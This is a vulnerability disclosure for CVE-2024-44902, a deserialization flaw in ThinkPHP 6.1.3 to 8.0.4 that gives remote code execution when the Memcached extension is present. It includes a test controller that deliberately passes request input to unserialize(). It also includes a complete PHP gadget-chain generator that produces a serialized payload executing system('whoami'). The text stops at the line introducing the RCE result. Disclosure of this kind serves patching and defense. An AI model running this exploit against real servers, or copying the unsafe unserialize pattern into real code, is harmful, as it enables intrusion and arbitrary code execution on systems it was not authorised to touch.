

# CVE-2024-44902

## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

## Affects Version

Thinkphp v6.1.3 to v8.0.4 

## Exploit condition

The thinkphp framework should have installed the Memcached extension.

## Vulnerability certificate

- Test environment: php8.0.7+thinkphp8.0.4+memcached3.2.0.

First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['x']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

    public function hello($name = 'ThinkPHP8')
    {
        return 'hello,' . $name;
    }
}

```

You can generate payload from:

```php
<?php
namespace think\cache\driver;
use think\model\Pivot;
class Memcached{
    protected $options=[];
    function __construct()
    {
        $this->options["username"]=new Pivot();
    }
}

namespace think\model;
use think\model;
class Pivot extends Model
{

}

namespace think;
abstract class Model{
    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    function __construct()
    {
        $this->data["fru1ts"]=["whoami"];
        $this->withAttr["fru1ts"]=["system"];
        $this->json=["fru1ts"];
    }
}

namespace think\route;
use think\DbManager;
class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new DbManager();
    }
}
namespace think;
use think\model\Pivot;
class DbManager
{
    protected $instance = [];
    protected $config = [];
    function __construct()
    {
        $this->config["connections"]=["getRule"=>["type"=>"\\think\\cache\\driver\\Memcached","username"=>new Pivot()]];
        $this->config["default"]="getRule";
    }
}

use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```

Use the payload to deserialize can result to RCE:


